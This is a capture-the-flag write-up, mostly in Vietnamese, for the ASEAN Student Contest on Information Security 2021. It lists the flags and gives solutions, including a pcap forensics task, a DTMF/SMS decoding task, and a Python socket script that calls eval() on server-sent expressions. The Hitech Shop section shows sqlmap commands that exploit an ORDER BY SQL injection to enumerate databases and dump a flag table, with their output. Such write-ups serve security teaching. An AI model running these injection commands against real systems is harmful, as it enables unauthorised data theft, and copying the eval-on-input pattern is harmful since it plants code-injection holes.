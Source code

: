 # ASEAN STUDENT CONTEST ON INFORMATION SECURITY 2021

### Overview
 | Title | Category | Points | Flag
 | ------ | ------ | ------ | ------ |
 | [Hitech Shop](#Hitech-Shop) | Web | 100 | `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}` |
 | yeuvcs | Web | 200 |  |
 | [CALL ME MAYBE](#CALL-ME-MAYBE) | Crypto | 100 | `FLAG{SMS AND DMTF}` |
 | AES ECB crypto challenge | Crypto | 200 |  |
 | echo server | Pwnable | 100 |  |
 | Guessme | Pwnable | 200 |  |
 | Keygen me | Reverse | 100 |  |
 | Decrypt me | Reverse | 200 |  |
 | [Simple For](#Simple-For) | Misc | 100 | `ASCIS{n3tw0rk_f0r3ns1c_1s_n0t_h4rd}` |
 | [Calculate me](#Calculate-me) | Misc | 100 | `ASCIS{3v3ry0n3_sh0uld_kn0w_pr0gramm1ng}` |
 
# Simple For
 
### Challenge
 
<img src=files/185903.png>
 
[capture.pcap](files/capture.pcap)
 
### Solution

<img src=files/191647.png>

Follow TCP Stream

<img src=files/191756.png>

# Calculate me
 
### Challenge
 
<img src=files/192446.png>
 
### Solution

Dùng netcat truy cập ta nhận được như sau. (timeout là 5s)

<img src=files/192943.png>

Viết chương trình socket giao tiếp với server.

```python
# !/usr/bin/python
import socket

def receive_one_line(s):
    r = b''

    # Lần lượt nhận từng ký tự, nếu là ký tự xuống dòng thì ngưng
    while (True):
        t = s.recv(1)
        if t == b'\n': break
        r = r + t

    # Trả về kết quả dạng string
    return r.decode()

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('125.235.240.166',20103))

data = receive_one_line(s)
print(data)
data = receive_one_line(s)
print(data)
while True:
    data = receive_one_line(s)
    print(data)

    str = int(eval(data[:data.find('=')]))
    print(str)

    s.sendall(f"{str}\n".encode())

    data = receive_one_line(s)
    print(data)
    data = receive_one_line(s)
    print(data)
```

Kết quả ta lấy được cờ.

<img src=files/193213.png>

# Simple For

### Challenge

<img src=files/193838.png>

### Solution

DTMF Code

<img src=files/194556.png>

Phone (SMS)

<img src=files/194643.png>

Cipher.txt > [DTMF Code](https://www.dcode.fr/dtmf-code) > 777767777026630368333 > [Multi-tap Phone (SMS)](https://www.dcode.fr/multitap-abc-cipher) > SMS AND DMTF

# Hitech Shop

### Challenge

<img src=files/195002.png>

### Solution

Fuz thử với dấu `'` ta không thấy display ra lỗi. Vậy guess là web server sử dụng hàm set_error_handler để catch lỗi.

<img src=files/195305.png>

Dùng sqlmap để exploit.

```
# sqlmap -u "http://125.235.240.166:20105/index?order=name" --dbs                  
...
available databases [2]:
[*] information_schema
[*] vannd
...
# sqlmap -u "http://125.235.240.166:20105/index?order=name" -D vannd --tables      
...
Database: vannd
[2 tables]
+----------+
| flag     |
| products |
+----------+
...
# sqlmap -u "http://125.235.240.166:20105/index?order=name" -D vannd -T flag --dump
Database: vannd
Table: flag
[1 entry]
+---------------------------------------+
| secret                                |
+---------------------------------------+
| ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY} |
+---------------------------------------+
...
```

